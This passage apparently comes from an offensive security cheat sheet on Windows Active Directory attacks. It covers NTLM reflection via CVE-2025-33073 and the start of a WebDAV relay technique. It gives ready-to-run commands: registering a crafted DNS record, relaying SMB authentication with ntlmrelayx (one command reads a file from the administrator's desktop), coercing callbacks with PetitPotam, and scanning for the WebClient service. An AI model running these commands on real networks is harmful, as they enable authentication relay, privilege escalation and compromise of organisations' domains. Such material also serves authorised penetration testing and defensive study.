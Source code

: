 ## NTLM Reflection - CVE-2025-33073

* Add a DNS record for `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` pointing to our IP address. It is also possible to compromise any vulnerable machine by registering `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`.

    ```ps1
    dnstool.py -u 'domain.local\username' -p 'P@ssw0rd' 10.10.10.10 -a add -r target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 198.51.100.27
    # OR
    pretender -i "vmnet2" --spoof "target1UWhR..." --no-dhcp --no-timestamps
    ```

* Start the relay to catch the callback from TARGET.

    ```ps1
    ntlmrelayx.py -t smb://TARGET.domain.local -smb2support
    ntlmrelayx.py -t smb://TARGET.domain.local -smb2support -c 'type C:\Users\Administrator\Desktop\flag.txt'
    ```

* Trigger a callback from the server to `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` using PetitPotam.

    ```ps1
    nxc smb TARGET.domain.local -u username -p 'P@ssw0rd' -M coerce_plus -o M=Petitpotam LISTENER=target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
    # OR
    petitpotam.py -d domain.local -u username -p 'password' "TARGET1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" "TARGET.DOMAIN.LOCAL"
    ```

## Relaying with WebDav Trick

> Example of exploitation where you can coerce machine accounts to authenticate to a host and combine it with Resource Based Constrained Delegation to gain elevated access. It allows attackers to elicit authentications made over HTTP instead of SMB

**Requirement**:

* WebClient service

**Exploitation**:

* Discover machines on the network with enabled WebClient service

    ```ps1
    webclientservicescanner 'domain.local'/'user':'password'@'machine'
    netexec smb 10.10.10.10 -d 'domain' -u 'user' -p 'password' -M webdav
    GetWebDAVStatus.exe 'machine'
    ```
